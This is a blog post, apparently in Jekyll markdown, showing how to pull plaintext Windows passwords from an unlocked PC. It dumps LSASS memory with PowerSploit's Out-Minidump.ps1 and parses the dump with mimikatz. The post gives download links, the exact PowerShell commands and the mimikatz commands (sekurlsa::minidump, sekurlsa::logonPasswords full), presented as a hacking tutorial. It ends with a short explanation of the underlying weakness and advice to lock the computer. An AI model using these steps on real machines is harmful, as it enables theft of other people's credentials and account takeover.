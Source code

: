```yaml
---
layout: post
title: Uncover user password from unlocked Windows PC with less than 5 minutes
description: A simple how-to article demonstrating existing vulnerability that makes your Windows passwords are hackable.
tags: [Windows, Password, Vulnerability]
---
```


I found [this article](http://www.fixedbyvonnie.com/2015/02/hack-passwords-of-windows-in-5-minutes) mentioning about the existing vulnerability in Windows OS where you can get the plaintext view of your passwords on any unlocked computer. So, I tried it on my Windows 10 PC and found that the vulnerability is still exist. The method used here is not new at all, and anyone can perform this hacking on any unlocked Windows PC providing that they know how to use the following tools.



### Tools you need

- [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest) - just get the binary package, e.g. `mimikatz_trunk.zip`
- [Out-Minidump.ps1](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1) - PowerShell script

Download all the tools above and let's start hacking!



### 1. Perform memory dump using the PowerShell script

To perform the [LSASS](https://technet.microsoft.com/en-us/library/cc961760.aspx) dump, I will use the PowerShell script - `Out-Minidump.ps1`. The flow of cmdlet will look like this:

{% include figure.html src="assets/images/1lQnyhZ.png" caption="PowerShell cmdlet" %}

```powershell
. 'G:\USERFILES\Desktop\PowerShell Playground\Out-Minidump.ps1'
# "dot sourcing" method to import function from the script

Get-Process lsass | Out-Minidump
# To perform the LSASS dump

Copy-Item .\lsass_868.dmp 'G:\USERFILES\Desktop\PowerShell Playground'
# Copy the dump file to desired location
```

### 2. View the passwords using the mimikatz terminal program

As you can see, `lsass_868.dmp` is the example of LSASS dump file captured using the PowerShell script. Now, it's time I need to use the mimikatz terminal to load in the dump file as follows:

```
sekurlsa::minidump "G:\USERFILES\Desktop\PowerShell Playground\lsass_868.dmp"
```

{% include figure.html src="assets/images/OPA0g0w.png" caption="mimikatz MINIDUMP" %}

Switching to MINIDUMP file, so now I can view the passwords. Now, I will run this command to display all the accounts and passwords available:

```
sekurlsa::logonPasswords full
```

Voila! There, I can see my actual Microsoft Account username and password in _a plaintext view_.

{% include figure.html src="assets/images/nWPZUIR.jpg" caption="mimikatz logonPasswords" %}



### Explanation of the vulnerability

The fact is that the password is encrypted but it's _useless_ as the implementation depends on two basic Win32 functions; [LsaProtectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714509%28v=vs.85%29.aspx) (the encryption function) and [LsaUnprotectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714510(v=vs.85).aspx) (the decryption function). So, the Windows stores these encrypted user passwords in memory without using any of one-way hash algorithm which is decryptable using **LsaUnprotectMemory** function to a plain text.

**It is RECOMMENDED to always LOCK your Windows PC when you are away, especially when you are in office or public place. This hacking can simply be done less than five minutes!**